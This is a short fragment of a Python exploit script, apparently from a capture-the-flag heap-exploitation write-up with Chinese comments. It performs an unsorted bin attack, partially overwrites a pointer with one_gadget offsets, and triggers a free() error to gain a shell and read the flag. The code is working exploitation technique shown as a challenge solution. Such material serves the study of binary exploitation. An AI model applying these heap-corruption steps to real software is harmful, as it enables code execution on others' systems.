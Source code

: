    ```py
   add(0x68,5)
   
   edit(5,b"AAAAAAAA")
   
   # unsorted bin attack
   free(4)
   edit(4,p64(0))
   add(0x68,10)
   
   edit(2,p64(0) + b"\x00")
   add(0x68,1)
   
   # 填入 one_gadget
   one_gadget = [0x4527a,0xf03a4,0xf1247]
   edit(5,p64(0)*2 + b"\x00"*3 + b"\xa4\x03\x8f")
   # edit(5,p64(0)*2 + b"\x00"*3 + b"\x47\x12\x8f")
   # edit(5,p64(0)*2 + b"\x00"*3 + b"\x7a\x52\x84")
   
   debug()
   free(9)		#unsorted bin报错
   
   #free(4)	#fastbin中的double free报错
   #free(4)
   p.sendline(b"cat flag")
   p.interactive()
   ```

   
